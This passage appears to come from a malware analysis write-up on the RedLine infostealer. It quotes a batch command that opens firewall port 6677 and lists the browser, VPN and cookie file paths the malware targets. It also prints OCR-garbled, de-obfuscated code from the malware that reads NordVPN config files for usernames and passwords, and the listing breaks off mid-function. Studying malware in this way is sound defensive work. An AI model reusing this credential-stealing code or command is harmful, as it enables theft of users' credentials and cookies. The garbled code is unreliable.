 Furthermore, the repository also includes a batch file containing the command "netsh advfirewall firewall add rule name='RLS' dir=in action=allow protocol=TCP localport=6677." This command adds a rule to the firewall, allowing TCP connections on port 6677.

Upon examining various samples through any.run, it appears that the RedLine malware attempts to collect the victim's browser and VPN client data.

```bash
C:\Users\admin\AppData\Local\NordVPN
C:\Users\admin\AppData\Local\Chromium\User Data\
C:\Users\admin\AppData\Local\BraveSoftware\Brave-Browser\User Data\
```

In addition, the RedLine malware is known to steal cookies.

```bash
C:\Users\admin\AppData\Roaming\Mozilla\Firefox\Profiles\qldyz51w.default\cookies.sqlite
C:\Users\admin\AppData\Local\Google\Chrome\User Data\Default\Cookies
```

The behavior of this infostealer appears to be quite diverse. In certain instances, RedLine specifically targets certain programs installed on the victim's device. It's possible that the RedLine builder includes various features that can be enabled or customized to meet the needs of the malware user.

As anticipated, the RedLine malware is obfuscated, which makes it difficult to analyze. However, the Blackberry Research & Intelligence Team has been able to de-obfuscate a version of the malware, revealing several of its characteristics, including its ability to read VPN configurations.

```java
public class NordApp
{
public static List<Account> Find()
{
List<Account> list = new List<Account>();
try
{
DirectoryInfo directoryInfo = new DirectoryInfo(Path. Combine(Environment. Expand Environment Variables ("%USERPROFILE%\\AppData\\Local"
{
'NordVPN' }).Replace("Def", string. Empty)));
if (!directoryInfo. Exists)
{
return list;
}
DirectoryInfo[] directories = directoryInfo.GetDirectories (new string(new char[]
{
'NordVpn. 'x*}). Replace("Win", string. Empty));
for (int i = 0; i < directories.Length; i++)
{
foreach (DirectoryInfo directoryInfo2 in directories[i].GetDirectories())
{
try
{
string text= Path. Combine(directoryInfo2. FullName, new string(new char[]
{
'user.config' }));
if (File.Exists(text))
{
XmlDocument xmlDocument = new XmlDocument ();
xmlDocument.Load(text);
string innerText = xmlDocument.SelectSingleNode(new string(new char[]
{
'//setting[@name=\\Username\\]/value' }).Replace("String. Replace", string. Empty)). InnerText;
string innerText2 = xmlDocument.SelectSingleNode(new string(new char[]
{
'//setting[@name=\\Password\\]/value' }).Replace("String. Remove", string. Empty)). Inner Text;
if (!string.IsNullOrWhiteSpace(innerText) && !string.IsNullOrWhiteSpace(inner Text2))
```
